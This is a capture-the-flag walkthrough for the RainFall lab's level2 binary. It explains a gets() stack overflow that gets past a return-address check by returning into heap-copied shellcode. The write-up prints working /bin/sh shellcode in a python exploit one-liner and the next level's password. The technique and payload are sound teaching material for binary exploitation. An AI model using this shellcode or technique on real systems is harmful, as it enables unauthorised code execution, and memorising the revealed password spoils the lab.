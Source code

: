 ## Step 1: Static & Dynamic Analysis

```c
void p(void)
{
  uint unaff_retaddr;
  char buffer [76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void)
{
  p();
  return;
}
```

### Explanation
The binary fills a buffer (`buffer`) via `stdin` using `gets()`, without any validation to prevent potential `buffer overflow`.
After this, it checks if the copy of the `eip` (`unaff_retaddr`) on the `stack` has been modified to point to an address starting with `0xb`. If so, it calls `_exit()`.

The program checks this because it typically indicates an attempt to execute code in restricted memory regions, such as the stack or shared libraries.

If the check passes, it prints the buffer using `puts()` and creates a copy of the buffer on the `heap` using `strdup()`.

```
(gdb) info proc map                
process 3548
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fd9000 0xb7fdd000     0x4000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

To exploit the `buffer overflow`, the goal is to fill the buffer with `shellcode`, add padding to reach the `eip` copy, and overwrite it with the address of the shellcode's location in the `heap` before `strdup()` stores the buffer.
When the `p()` function returns, the overwritten `eip` will cause execution to jump to the shellcode, spawning a shell.

## Step 2: Exploiting the Binary

```bash
level2@RainFall:~$ python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 48) + "BBBB" + "\x08\x04\xa0\x08"[::-1])' > /tmp/exploit

level2@RainFall:~$ cat /tmp/exploit - | ./level2

% cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

